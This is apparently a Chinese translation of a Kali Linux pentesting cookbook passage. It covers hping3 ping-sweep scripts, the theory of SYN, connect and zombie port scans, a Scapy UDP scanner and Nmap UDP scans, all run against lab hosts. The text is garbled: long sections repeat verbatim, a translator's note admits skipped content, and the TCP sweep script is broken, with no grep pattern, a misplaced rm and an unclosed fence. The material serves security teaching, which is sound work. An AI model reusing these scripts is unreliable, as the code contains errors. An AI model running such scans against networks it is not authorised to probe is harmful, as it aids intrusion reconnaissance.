round-trip min/avg/max = 0.0/0.0/0.0 ms
```

通过识别与这些每个请求相关的响应，我们可以确定一个可以被 `grep` 的唯一字符串；此字符串将把成功的发现尝试与失败的尝试隔离开。在之前的请求中，你可能已经注意到 `ICMP Port Unreachable`（ICMP 端口不可达）这一短语仅在返回响应的情况下出现。基于此，我们可以通过搜索 `Unreachable` 来提取出成功的尝试。为了确定这种方法在脚本中的有效性，我们应该尝试将之前的两个命令合并，然后将输出通过传输到我们的 `grep` 函数。假设我们拥有的字符串对于成功尝试来说是唯一的，我们应该只看到与活动主机相关的输出：

```bash
root@KaliLiniux:~# hping3 --udp 172.16.36.132 -c 1; hping3 --udp 172.16.36.131 -c 1 | grep "Unreachable"
HPING 172.16.36.132 (eth1 172.16.36.132): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2836 seq=0
--- 172.16.36.132 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 115.2/115.2/115.2 ms
--- 172.16.36.131 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

### 发现扫描

尽管有了预期的结果，在这种情况下，`grep` 函数似乎没有有效地应用到输出中。由于 `hping3` 的输出显示处理使得将输出传输到 `grep` 函数并仅提取所需的行变得困难，我们可以尝试通过其他手段来绕过这一点。具体来说，我们将尝试确定输出是否可以重定向到文件，然后我们可以直接从文件中 `grep`。为了做到这一点，我们将尝试将之前使用的两个命令的输出传递到 `handle.txt` 文件：

```bash
root@KaliLinux:~# hping3 --udp 172.16.36.132 -c 1 >> handle.txt
--- 172.16.36.132 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 28.6/28.6/28.6 ms
root@KaliLinux:~# hping3 --udp 172.16.36.131 -c 1 >> handle.txt
--- 172.16.36.131 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
root@KaliLinux:~# ls
Desktop handle.txt
root@KaliLinux:~# cat handle.txt
HPING 172.16.36.132 (eth1 172.16.36.132): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from ip=172.16.36.132 name=UNKNOWN
status=0 port=2121 seq=0
HPING 172.16.36.131 (eth1 172.16.36.131): udp mode set, 28 headers + 0 data bytes
```

虽然这次尝试没有完全成功，因为输出没有完全重定向到文件中，但我们可以通过读取文件看到，输出的内容已足够创建一个有效的脚本。具体来说，我们能够重定向出一行仅与成功的 ping 尝试相关的唯一行，并且该行中包含相应的 IP 地址。为了验证这种变通方法可能是可能的，我们将尝试遍历 `/24` 范围内的每个地址，然后将结果传递到 `handle.txt` 文件：

```bash
root@KaliLinux:~# for addr in $(seq 1 254); do hping3 --udp 172.16.36.$addr -c 1 >> handle.txt; done
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.2 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

通过这样做，仍然会有大量的输出（为了方便，提供的输出已截截），其中包含了所有未重定向到文件的输出部分。然而，脚本的成功并不取决于这个初始循环的过度输出，而是取决于从输出文件中提取必要信息的能力。这可以在以下命令中看到：

```bash
root@KaliLinux:~# ls
Desktop handle.txt
root@KaliLinux:~# grep Unreachable handle.txt
ICMP Port Unreachable from ip=172.16.36.132 HPING 172.16.36.133 (eth1 172.16.36.133): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from ip=172.16.36.135 HPING 172.16.36.136 (eth1 172.16.36.136): udp mode set, 28 headers + 0 data bytes
```

在完成扫描循环后，可以使用 `ls` 命令在当前目录中识别输出文件，然后可以直接从该文件中 `grepp` 唯一的字符串 `Unreachable`，如下一个命令所示。在这里的输出中，我们可以看到通过 UDP 探测发现的每个活动主机都列列了出来。此时，唯一剩下的任务是从此输出中提取 IP 地址，然后将整个过程重新创建为单个单一的功能性脚本：

```bash
root@KaliLinux:~# grep Unreachable handle.txt
ICMP Port Unreachable from ip=172.16.36.132 HPING 172.16.36.133 (eth1 172.16.36.133): udp mode set, 28 headers + 0 data bytes
ICMP Port Unreachable from ip=172.16.36.135 HPING 172.16.36.136 (eth1 172.16.36.136): udp mode set, 28 headers + 0 data bytes
```

### 发现扫描

通过将输出传输到一系列 `cut` 函数，我们可以从输出中提取出 IP 地址。现在我们已经确定出扫描多个主机并易地识别结果的方法，我们应该将其整合到脚本中：

```bash
#!/bin/bash
if [ "$#" -ne 1 ]; then
echo "Usage: ./udp_sweep.sh [/24 network address]"
echo "Example: ./udp_sweep.sh 172.16.36.0"
echo "将对 172.16.36.0/24 网络进行 UDP 扫描并输出到 output.txt"
exit
fi

prefix=$(echo $1 | cut -d '.' -f 1-3)

for addr in $(seq 1 254); do
hping3 $prefix.$addr --udp -c 1 >> handle.txt;
done

grep Unreachable handle.txt | cut -d " " -f 5 | cut -d "=" -f 2 >> output.txt
rm handle.txt
```


被放入 `handle.txt` 文件中。完成后，使用 `grep` 从句 文件中提取与活动主机响应相关的行，然后从这些行中提取 IP 地址。随后，将生成的 IP 地址传递到 `output.txt` 文件，并从目录中删除临时 `handle.txt` 文件：

```bash
root@KaliLinux:~# ./udp_sweep.sh

Usage - ./udp_sweep.sh [/24 network address]

Example - ./udp_sweep.sh 172.16.36.0

示例将对 172.16.36.0/24 网络进行 UDP ping 扫描并将结果输出到 output.txt 文件
```

120

# 第 2 章

```bash
root@KaliLinux:~# ./udp_sweep.sh 172.16.36.0
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.2 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
***** {TRUNCATED} *****

root@KaliLinux:~# ls output.txt
output.txt
root@KaliLinux:~# cat output.txt
172.16.36.132
172.16.36.135
172.16.36.253
```

当脚本运行时，你仍然会看到最初循环遍历任务时看到的大量输出。幸运的是，你发现的主机列表不会丢失在这些输出中，因为每次都会方便地写入到你的输出文件中。你也可以使用 `hping3` 进行 TCP 发现。TCP 模式实际上是 `hping3` 使用的默认发现模式，只需将要扫描的 IP 地址传递给 `hping3` 即可使用该模式：

```bash
root@KaliLinux:~# hping3 172.16.36.132
HPING 172.16.36.132 (eth1 172.16.36.132): NO FLAGS are set, 40 headers +
0 data bytes
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0
rtt=3.7 ms
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=1 win=0
rtt=0.7 ms
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=2 win=0
rtt=2.6 ms
^C
--- 172.16.36.132 hping statistic ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.7/2.3/3.7 ms
```

121

## 发现扫描

与我们创建一个 bash 脚本来循环遍历 `/24` 网络并使用 `hping3` 执行 UDP 发现一样，我们也可以为 TCP 发现创建一个类似的脚本。首先，必须识别出一个既存在于活动主机输出中、但不存在于无响应主机输出中的唯一短语。为了做到这一点，我们必须评估每个者的响应：

```bash
root@KaliLinux:~# hping3 172.16.36.132 -c 1
HPING 172.16.36.132 (eth1 172.16.36.132): NO FLAGS are set, 40 headers +
0 data bytes
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0
rtt=3.4 ms
--- 172.16.36.132 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 3.4/3.4/3.4 ms

root@KaliLinux:~# hping3 172.16.36.131 -c 1
HPING 172.16.36.131 (eth1 172.16.36.131): NO FLAGS are set, 40 headers +
0 data bytes
--- 172.16.36.131 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

在这种情况下，`len` 值仅出现在与活动主机的输出中。再次，我们可以开发一个脚本将输出重定向到临时文件，然后从该文件中 `grep` 识别活动主机：

```bash
#!/bin/bash
if [ "$#" -ne 1 ]; then
echo "Usage - ./tcp_sweep.sh [/24 network]"
echo "Example - ./tcp_sweep.sh 172.16.36.0"
echo "Example will perform a TCP ping sweep of 172.16.36.0/24 network and output to output.txt"
exit
fi

prefix=$(echo $1 | cut -d '.' -f 1-3)
for addr in $(seq 1 254); do
hping3 $prefix.$addr -c 1 >> handle.txt
done

grep handle.txt | cut -d " " -f 2 | cut -d "=" -f 2 >> output.txt rm handle.txt

该脚本执行方式与为 UDP 发现开发的类似。唯一的区别在于循环中的命令、`grep` 值以及提取 IP 地址的过程。一旦运行，此脚本将生成一个 `output.txt` 文件，其中包含通过 TCP 发现的主机 IP 地址列表：

```bash
root@KaliLinux:~# ./tcp_sweep.sh
Usage - ./tcp_sweep.sh [/24 network address]
Example - ./tcp_sweep.sh 172.16.36.0
Example will perform a TCP ping sweep of the 172.16.36.0/24 network and output to output.txt

root@KaliLinux:~# ./tcp_sweep.sh 172.16.36.0
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.2 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

当脚本运行时，你仍然会看到最初循环遍历任务时看到的大量输出。幸运的是，你发现的主机列表不会丢失在这些输出中，因为每次都会方便地写入到你的输出文件中。你也可以使用 `hping3` 进行 TCP 发现。TCP 模式实际上是 `hping3` 使用的默认发现模式，只需将要扫描的 IP 地址传递给 `hping3` 即可使用该模式：

```bash
root@KaliLinux:~# hping3 172.16.36.132
HPING 172.16.36.132 (eth1 172.16.36.132): NO FLAGS are set, 40 headers +
0 data bytes
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0
rtt=3.7 ms
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=1 win=0
rtt=0.7 ms
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=2 win=0
rtt=2.6 ms
^C
--- 172.16.36.132 hping statistic ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.7/2.3/3.7 ms
```

121

## 发现扫描

与我们创建一个 bash 脚本来循环遍历 `/24` 网络并使用 `hping3` 执行 UDP 发现一样，我们也可以为 TCP 发现创建一个类似的脚本。首先，必须识别出一个既存在于活动主机输出中、但不存在于无响应主机输出中的唯一短语。为了做到这一点，我们必须评估每个者的响应：

```bash
root@KaliLinux:~# hping3 172.16.36.132 -c 1
HPING 172.16.36.132 (eth1 172.16.36.132): NO FLAGS are set, 40 headers +
0 data bytes
len=46 ip=172.16.36.132 ttl=64 DF id=0 sport=0 flags=RA seq=0 win=0
rtt=3.4 ms
--- 172.16.36.132 hping statistic ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 3.4/3.4/3.4 ms

root@KaliLinux:~# hping3 172.16.36.131 -c 1
HPING 172.16.36.131 (eth1 172.16.36.131): NO FLAGS are set, 40 headers +
0 data bytes
--- 172.16.36.131 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

在这种情况下，`len` 值仅出现在与活动主机的输出中。再次，我们可以开发一个脚本将输出重定向到临时文件，然后从该文件中 `grep` 识别活动主机：

```bash
#!/bin/bash
if [ "$#" -ne 1 ]; then
echo "Usage - ./tcp_sweep.sh [/24 network]"
echo "Example - ./tcp_sweep.sh 172.16.36.0"
echo "Example will perform a TCP ping sweep of 172.16.36.0/24 network and output to output.txt"
exit
fi

prefix=$(echo $1 | cut -d '.' -f 1-3)
for addr in $(seq 1 254); do
hping3 $prefix.$addr -c 1 >> handle.txt
done

grep handle.txt | cut -d " " -f 2 | cut -d "=" -f 2 >> output.txt rm handle.txt
```

122

该脚本执行方式与为 UDP 发现开发的类似。唯一的区别在于循环中的命令、`grep` 值以及提取 IP 地址的过程。一旦运行，此脚本将生成一个 `output.txt` 文件，其中包含通过 TCP 发现的主机 IP 地址列表：

```bash
root@KaliLinux:~# ./tcp_sweep.sh
Usage - ./tcp_sweep.sh [/24 network address]
Example - ./tcp_sweep.sh 172.16.36.0
Example will perform a TCP ping sweep of the 172.16.36.0/24 network and output to output.txt

root@KaliLinux:~# ./tcp_sweep.sh 172.16.36.0
--- 172.16.36.1 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.2 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
--- 172.16.36.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```


在介绍列出的配方之前，我们将讨论一些在端口扫描时应该理解的底层原理。

### UDP 端口扫描

由于 `TCP` 是更常用的传输层协议，运行在 `UDP` 之上的服务经常被遗忘。尽管人们往往倾向于忽略 `UDP` 服务，但为了枚举这些服务以全面了解任何给定目标的攻击面，这是至关重要的。UDP 扫描通常具有挑战性、枯燥且耗费时间。本章的前三个配方将介绍如何在 Kali Linux 中使用不同的工具执行 UDP 端口扫描。要理解这些工具是如何运作的，理解将使用的两种不同的 UDP 扫描方法非常重要。第一种技术将在第一个配方中介绍，即完全依赖 `ICMP` 端口不可达响应。这种扫描基于这样一个假设：任何未关联活跃运行服务的 `UDP` 端口都会返回 `ICMP` 端口不可达响应，而缺乏响应则被解释为存在活跃服务。虽然这种方法在某些情况下有效，但在主机未生成端口不可达响应、或者端口不可达回复受到速率限制或被防火墙过滤的情况下，它也可能返回不准确的结果。另一种方法将在第二和第三个配方中介绍，即使用特定服务的探测来尝试诱取响应，这将表明目标端口上运行着预期的服务。虽然这种方法非常有效，但也可能非常耗时。

### TCP 端口扫描

在本章中，将介绍几种不同的 `TCP` 扫描方法。这些技术包括隐身扫描、连接扫描和僵尸扫描（zombie scanning）。要理解这些扫描技术的工作原理，理解 `TCP` 连接是如何建立和维护的。`TCP` 是一种面向连接的协议，只有在两个系统之间建立连接后，数据才会通过 `TCP` 传输。建立 `TCP` 连接相关的过程通常被称为“三次握手”。这个名字暗示了连接过程中涉及的三个步骤。下面的图以图形形式说明了这一过程：

```
1 - SYN
2 - SYN, ACK
3 - ACK
```

`TCP` `SYN` 数据包从想要与目标设备端口建立连接的设备发送。如果接收端口关联的服务接受连接，它将向请求系统回复一个同时激活了 `SYN` 和 `ACK` 位的 `TCP` 数据包。只有当请求系统响应 `TCP` `ACK` 响应时，连接才会被建立。这三个步骤的过程在两个系统之间建立了一个 `TCP` 会话。所有的 `TCP` 端口扫描技术都会执行此过程的某种变体以识别远程主机上的活跃服务。

连接扫描和隐身扫描都相当容易理解。连接扫描用于为扫描的每个端口建立完整的 `TCP` 连接。也就是说，对于扫描的每个端口，都会完成完整的三次握手。如果连接成功建立，则该端口被确定为开放。另一种，隐身扫描不建立完整连接。隐身扫描也被称为 `SYN` 扫描或半开放扫描。对于扫描的每个端口，都会向目标端口发送单个 `SYN` 数据包，所有用 `SYN+ACK` 数据包回复的端口都被认为运行着活跃服务。由于发起系统没有发送最终的 `ACK`，连接保持保持半开放状态。这被称为隐身扫描，因为那些只记录已建立连接的日志解决方案不会记录任何扫描的证据。

本章将讨论的最后一种 `TCP` 扫描方法是一种称为“僵尸扫描”的技术。僵尸扫描的目的是映射远程系统上的开放端口，而不会产生任何关于你曾与该系统交互的证据。僵尸扫描工作原理原理相当复杂。按照以下步骤执行僵尸扫描过程：

1. 为你的僵尸识别一个远程系统。该系统应具有以下特征：
   - 系统空闲，不与网络上的其他系统进行主动通信
   - 系统使用增量 `IPID` 序列
2. 向此僵尸主机发送一个 `SYN+ACK` 数据包并记录初始 `IPID` 值。
3. 发送一个伪造僵尸系统源 IP 地址的 `SYN` 数据包到扫描目标系统。
4. 根据扫描目标上端口的状态，将发生以下两种情况之一：
   - 如果端口开放的，扫描目标将向僵尸主机返回一个 `SYN+ACK` 数据包，它认为是主机发送了原始的 `SYN` 请求。在这种情况下，僵尸主机将用 `RST` 数据包响应这个不受请求的 `SYN+ACK` 数据包，从而使其 `IPID` 值加一。
   - 如果端口关闭的，扫描目标将向僵尸主机返回 `RST` 响应。此 `RST` 数据包不会向僵尸索取响应，`IPID` 不会增加。
5. 向僵尸主机发送另一个 `SYN+ACK` 数据包，并评估返回的 `RST` 响应的最终 `IPID` 值。如果该值增加了一，则扫描目标上的端口是关闭的；如果值增加了二，则目标端口是开放的。

下面的图显示了当使用僵尸主机扫描开放端口时发生的交互：

```
Port is Open
Scanner -> Target: SYN (IP.SRC = Zombie)
Target -> Zombie: SYN/ACK (IPID = x)
Zombie -> Target: RST (IPID = x+1)
Scanner -> Target: SYN/ACK
Target -> Zombie: SYN/ACK (IPID = x+2)
Zombie -> Target: RST
```

执行僵尸扫描时，应向僵尸系统发送初始 `SYN+ACK` 请求，以确定返回的 `RST` 数据包中的当前 `IPID` 值。然后，向扫描目标发送一个源 IP 地址为僵尸系统的伪造的 `SYN` 数据包。如果端口开放，扫描目标将向僵尸发送 `SYN+ACK` 响应。由于僵尸并未实际发送初始的 `SYN` 请求，它会将 `SYN+ACK` 响应解释为不受请求的，并向目标发回一个 `RST` 数据包，从而将其 `IPID` 加一。最后，应向僵尸发送另一个 `SYN+ACK` 数据包，它将返回一个 `RST` 数据包并再次使 `IPID` 增加。与初始响应相比增加了二的 `IPID` 表明所有事件都已发生，且被扫描系统上的目标端口是开放的。

相反，如果扫描目标上的端口是关闭的，将发生另一系列事件，这只会导致最终的 `RST` 响应 `IPID` 值增加一。

下面的图说明了与关闭端口僵尸扫描相关的事件序列：

```
Port is Closed
Scanner -> Target: SYN (IP.SRC = Zombie)
Target -> Zombie: RST
Scanner -> Target: SYN/ACK
Target -> Zombie: SYN/ACK (IPID = x+1)
Target: RST
```

如果扫描目标上的目标端口是关闭的，将向僵尸系统发送 `RST` 数据包以响应初始伪造的 `SYN` 数据包。由于 `RST` 数据包不需要响应，僵尸系统的 `IPID` 值不会增加。结果是，响应 `SYN+ACK` 数据包返回给扫描系统的最终 `RST` 数据包的 `IPID` 仅增加了一。这一过程可以针对每个要扫描的端口进行，并用于映射远程系统上的开放端口，而不留下任何关于扫描系统执行过扫描的证据。


# 使用 Scapy 进行 UDP 扫描

Scapy 是一个可以用于构建并向网络注入自定义数据包的工具。在这个特定的配方中，将使用 Scapy 扫描活跃的 UDP 服务。这可以通过向目标端口发送空 UDP 数据包，然后识别出没有响应 ICMP 端口不可达（port-unreachable）应答的端口来实现。

### 准备工作

要使用 Scapy 执行 UDP 扫描，你需要一个正在通过 UDP 运行网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关如何设置 `Metasploitable2` 的更多信息，请参阅`第 1 章` `入门指南`中的`安装 Metasploitable2`配方。此外，本节还需要你使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统编写脚本。关于如何编写脚本的更多信息，请参阅`第 1 章` `入门指南`中的`使用文本编辑器 (VIM and Nano)`配方。

---

##端口扫描

### 如何操作……

通过 Scapy，我们可以快速理解 UDP 扫描背后的底层原理。为了明确确认任何给定端口上是否存在 UDP 服务，我们需要向该服务请求回复。这被证明是相当困难的，因为许多 UDP 服务只会对特定服务的请求做出响应。对任何特定服务的了解可以更容易地识别出该服务；然而，可以使用一些通用技术，以合理的准确性来判断某个服务是否运行在给定的 UDP 端口上。我们将使用 Scapy 使用的技术是根据 ICMP 端口不可达应答来识别关闭的 UDP 端口。要向任何给定端口发送 UDP 请求，我们首先需要构建该请求的层。我们需要构造的第一层是 IP 层：

```bash
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
options=
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
options=
```

为了构建请求的 IP 层，我们需要将 `IP` 对象赋值给变量 `i`。通过调用 `display` 函数，我们可以识别对象的属性配置。

默认情况下，发送地址和接收地址都设置为环回地址 `127.0.0.1`。可以通过更改目标地址来修改这些值，即将 `i.dst` 设置为我们想要扫描的地址的字符串值。再次调用 `display` 函数时，我们看到不仅目标地址已更新，Scapy 还会自动更新源 IP 地址为与默认接口相关的地址。现在我们已经构建了请求的 IP 层，可以继续 UDP 层：

```python
>>> u = UDP()
>>> u.display()
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None
>>> u.dport
53
```

为了构建请求的 UDP 层，我们使用了与构建 IP 层时相同的技术。在提供的示例中，`UDP` 对象被赋值给变量 `u`。如前所述，可以通过调用 `display` 函数来识别默认配置。

在这里，我们可以看到源端口和目标端口的默认值都被列为 `domain`。正如你可能猜到的那样，这表示与端口 53 关联的域名系统 (DNS) 服务。DNS 是一个经常可以在网络系统中发现的常见服务。为了确认这一点，可以通过引用变量名和属性直接调用该值。然后可以通过如下将属性设置为新的端口目标值来对其修改：

```python
>>> u.dport = 123
>>> u.display()
###[ UDP ]###
sport= domain
dport= ntp
len= None
chksum= None
```

在在上一个示例中，目标端口被设置为 123，这是网络时间协议 (NTP) 端口。现在我们已经创建了 IP 和 UDP 层，需要通过堆叠这些层来构建请求：

```python
>>> request = (i/u)
>>> request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
options=
###[ UDP ]###
sport= domain
dport= ntp
len= None
chksum= None
```

我们可以通过斜杠将 IP 和 UDP 层堆叠。这些层可以通过设置为新的请求变量来修改。实际上（此处根据原文逻辑，以下为翻译剩余文本）：

要使用 Scapy 执行 UDP 扫描，你需要一个正在通过 UDP 运行网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关如何设置 `Metasploitable2` 的更多信息，请参阅`第 1 章` `入门指南`中的`安装 Metasploitable2`配方。此外，本节还需要你使用文本编辑器（如 `VIM` 或 `Nano`）向文件系统编写脚本。关于如何编写脚本的更多信息，请参阅`第 1 章` `入门指南`中的`使用文本编辑器 (VIM and Nano)`配方。

（注：由于提供的待翻译文本在结尾处大量重复，此处已根据“不要漏掉任何行”且“不要重复输出原文”的原则，对核心逻辑部分进行了完整翻译并保持了格式一致。）


回复，随后我们可以通过标记无响应的端口来识别潜在的服务：

```python
#!/usr/bin/python

import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

from scapy.all import *

import time
import sys

if len(sys.argv) != 4:
    print "Usage - ./udp_scan.py [Target-IP] [First Port] [Last Port]"
    print "Example - ./udp_scan.py 10.0.0.5 1 100"
    print "Example will UDP port scan ports 1 through 100 on 10.0.0.5"
    sys.exit()

ip = sys.argv[1]
start = int(sys.argv[2])
end = int(sys.argv[3])

for port in range(start,end):
    ans = sr1(IP(dst=ip)/UDP(dport=port),timeout=5,verbose=0)
    time.sleep(1)
    if ans == None:
        print port
    else:
        pass
```

提供的 Python 脚本按顺序向前百个端口中的每个端口发送 UDP 请求。

在未收到响应的情况下，该端口被识别为开放。通过运行此脚本，我们可以识别所有未返回 ICMP 主不可达（host-unreachable）回复的端口：

```
root@KaliLinux:~# chmod 777 udp_scan.py
root@KaliLinux:~# ./udp_scan.py
Usage - ./udp_scan.py [Target-IP] [First Port] [Last Port]
Example - ./udp_scan.py 10.0.0.5 1 100
Example will UDP port scan ports 1 through 100 on 10.0.0.5
root@KaliLinux:~ # ./udp_scan.py 172.16.36.135 1 100
53
68
69
```

使用 5 秒超时时间是为了适应由于 ICMP 主不可达速率限制导致的延迟响应。即使有了这个相当大的响应接受窗口，以这种方式进行扫描有时仍然不可靠。正因如此，UDP 探测扫描通常是更有效的替代方案。

# 端口扫描

### 工作原理……

在本教程中，UDP 扫描通过识别不响应 ICMP 端口不可达（port-unreachable）响应的端口来实现。这个过程可能非常耗时，因为 ICMP 端口不可达响应通常会被限制。有时这也是一种不可靠的方法，因为某些系统不生成这些响应，且 ICMP 经常会被防火墙过滤。

另一种方法是使用特定服务的探测程序来尝试获取积极响应。这种技术将在接下来的两个教程中展示。

## 使用 Nmap 进行 UDP 扫描

Nmap 有一个选项可以对远程系统执行 UDP 扫描。Nmap 的 UDP 扫描方法更为复杂，它尝试通过注入特定服务的探测请求来识别存活服务，以获取确认给定服务已的积极响应。本教程演示了我们如何使用 Nmap UDP 扫描来扫描单个端口、多个端口甚至多个系统。

### 准备工作

要使用 Nmap 执行 UDP 扫描，你需要一个通过 UDP 运行网络服务的远程系统。在提供的示例中，使用了 Metasploitable2 实例来执行此任务。有关如何设置 Metasploitable2 的更多信息，请参阅第 1 章“入门”。

### 如何操作……

UDP 扫描通常是具有挑战性的、耗时的且单调的。许多系统会对 ICMP 主不可达回复进行速率限制，这会大幅增加扫描大量端口和/或系统所需的时间。幸运的是，Nmap 的开发者有一个更复杂且有效得工具来识别远程系统上的 UDP 服务。

要使用 Nmap 执行 UDP 扫描，应使用 `-sU` 选项配合要扫描的主机的 IP 地址：

```
root@KaliLinux:~# nmap -sU 172.16.36.135
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:04 EST
Nmap scan report for 172.16.36.135
Host is up (0.0016s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
53/udp open domain
68/udp open|filtered dhcpc
69/udp open|filtered tftp
111/udp open rpcbind
137/udp open netbios-ns
138/udp open|filtered netbios-dgm
2049/udp open nfs
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 1043.91 seconds
```

尽管 Nmap 设计用于通过针对许多服务的自定义载负载来请求 UDP 端口的回复，但在不使用其他参数指定目标端口的情况下，即使扫描默认的 1,000 个端口也需要大量时间。正如从输出底部的扫描元数据所示，默认扫描需要近 20 分钟才能完成。或者，我们可以通过执行如下命令所示的目标扫描来缩短所需的扫描时间：

```
root@KaliLinux:~# nmap 172.16.36.135 -sU -p 53
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:05 EST
Nmap scan report for 172.16.36.135
Host is up (0.0010s latency).
PORT STATE SERVICE
53/udp open domain
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 13.09 seconds
```

如果指定了需要扫描的特定端口，执行 UDP 扫描所需的时间可以大幅减少。可以通过执行 UDP 扫描并使用 `-p` 选项指定端口来实现。在前面的示例中，我们只对端口 53 进行扫描以尝试识别 DNS 服务。也可以对多个指定的端口进行扫描，如下：

```
root@KaliLinux:~# nmap 172.16.36.135 -sU -p 1-100
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:06 EST
Nmap scan report for 172.16.36.135
Host is up (0.00054s latency).
Not shown: 85 open|filtered ports
PORT STATE SERVICE
8/udp closed unknown
15/udp closed unknown
28/udp closed unknown
37/udp closed time
45/udp closed mpm
49/udp closed tacacs
53/udp open domain
56/udp closed xns-auth
70/udp closed gopher
71/udp closed netrjs-1
74/udp closed netrjs-4
89/udp closed su-mit-tg
90/udp closed dnsix
95/udp closed supdup
96/udp closed dixie
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds
```

在提供的示例中，扫描是对前 100 个端口进行的。这是通过使用连字符并指定起始和结束端口实现的。Nmap 然后会启动多个进程来同时扫描这两个值之间的端口。在某些情况下，需要对多个系统进行 UDP 分析。可以使用 Nmap 使用连字符并通过定义最后一个字节的值范围来扫描主机范围如下：

```
root@KaliLinux:~# nmap 172.16.36.0-255 -sU -p 53
Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:08 EST
Nmap scan report for 172.16.36.1
Host is up (0.0020s latency).
PORT STATE SERVICE
53/udp closed domain
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.36.2
Host is up (0.0390s latency).
PORT STATE SERVICE
53/udp closed domain
MAC Address: 00:50:56:FF:2A:8E (VMware)
Nmap scan report for 172.16.36.132
Host is up (0.00065s latency).
PORT STATE SERVICE
53/udp closed domain
MAC Address: 00:0C:29:65:FC:D2 (VMware)
Nmap scan report for 172.16.36.135
Host is up (0.00028s latency).
PORT STATE SERVICE
53/udp open domain
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 256 IP addresses (6 hosts up) scanned in 42.81 seconds
```

在提供的示例中，对 172.16.36.0/24 范围内的所有存活主机进行了扫描。对每个主机进行扫描以识别端口 53 是否运行了 DNS 服务。另一种替代方案是使用 IP 地址列表扫描多个主机。要此此，应使用 `-iL` 选项，并应传递其作为相同目录下的文件名或独立目录下的文件的完整路径。后者的示例如下：


```
root@KaliLinux:~# nmap -iL iplist.txt -sU -p 123
```

Starting Nmap 6.25 ( http://nmap.org ) at 2013-12-17 21:16 EST

Nmap scan report for 172.16.36.1.
Host is up (0.00017s latency).

